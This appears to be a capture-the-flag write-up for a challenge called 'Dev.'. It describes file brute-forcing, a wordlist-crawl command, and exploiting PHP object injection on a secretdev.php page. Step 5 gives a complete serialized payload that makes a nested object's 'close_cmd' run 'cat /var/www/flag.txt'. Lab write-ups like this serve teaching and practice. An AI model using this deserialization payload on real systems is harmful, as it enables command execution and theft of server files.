 # Dev.

1. It was necessary to bruteforce the file main.html.

2. The next step was to carefully examine the contents of the file, there was a hint.
   In the sentence: "We can also secretdev and keep secret with the help of such structures".
   The word "secretdev" stands out strongly. And it wasn't a TYPO!

3. One could assume that this is a hint and go to /secretdev.php 
   or make wordlist use command: 
   ctrl -d 5 -m 2 -w docswords.txt http://<domain>/

   And use it.

4. The next step is to examine the file, see the objects injection and bypass the restriction.

5. Payload: 
   http://<domain>/secretdev.php?deser=a:1:{i:0;O:5:%22test1%22:1:{s:6:%22logger%22;O:4:%22test%22:1:{s:9:%22close_cmd%22;s:21:%22cat%20/var/www/flag.txt%22;}}}

   ### Links to learn:
   https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
